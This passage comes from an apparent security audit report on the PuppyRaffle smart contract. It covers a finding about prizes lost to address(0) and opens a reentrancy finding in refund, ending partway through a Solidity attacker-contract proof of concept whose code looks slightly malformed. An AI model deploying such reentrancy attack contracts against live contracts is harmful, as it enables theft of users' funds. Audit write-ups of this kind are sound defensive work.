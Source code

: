 ## Impact

If the randomly selected winner's address is `address(0)` due to a refund, the prize and the associated non-fungible token (NFT) will be sent to `address(0)`, resulting in a loss of funds. This can occur when one or more players have refunded their entrance fees before the winner is selected.

## Tools Used

Manual review.

## Recommendations

To mitigate this vulnerability, consider implementing the following measures:

1. Use the `_isActivePlayer` function to ensure that the randomly selected winner's address is not `address(0)` before proceeding with the prize distribution.
2. Implement a mechanism to handle situations where the randomly selected winner's address is invalid, such as selecting an alternative winner or redistributing the prize pool.

## <a id='H-03'></a>H-03. Reentrancy Vulnerability in `refund` function of PuppyRaffle Contract

### Relevant GitHub Links

https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/main/src/PuppyRaffle.sol

## Summary

The `refund` function in the provided code is vulnerable to reentrancy attacks.

## Vulnerability Details

The vulnerability arises from the order of operations in the `refund` function. The function first sends the `entranceFee` to `msg.sender` using the `.sendValue()` function. However, this function can trigger a fallback function in the recipient contract, allowing for reentrant calls. After the value is sent, the `playerIndex` is set to `address(0)` to mark the player as refunded. This creates a window of opportunity for an attacker to reenter the `receive` function before the `playerIndex` is set to `address(0)`.

## Proof of Concept

The following is a simplified example of how an attacker can exploit the reentrancy vulnerability:

```solidity
contract MaliciousContract {
    PuppyRaffle private vulnerableContract;
    uint256 private index;
    uint256 private feeAmount;

    constructor(address _vulnerableContract, uint256 _feeAmount) {
        vulnerableContract = PuppyRaffle(_vulnerableContract);
        feeAmount = _feeAmount;
    }

    function AttackRaffle() external payable {
        // Call the vulnerable contract's refund function
        address[] player;
        player.push(address(this));
        feeAmount = msg.value;
        vulnerableContract.enterRaffle{value: feeAmount}(player);

        index = vulnerableContract.getActivePlayerIndex(address(this));
        vulnerableContract.refund(index);
```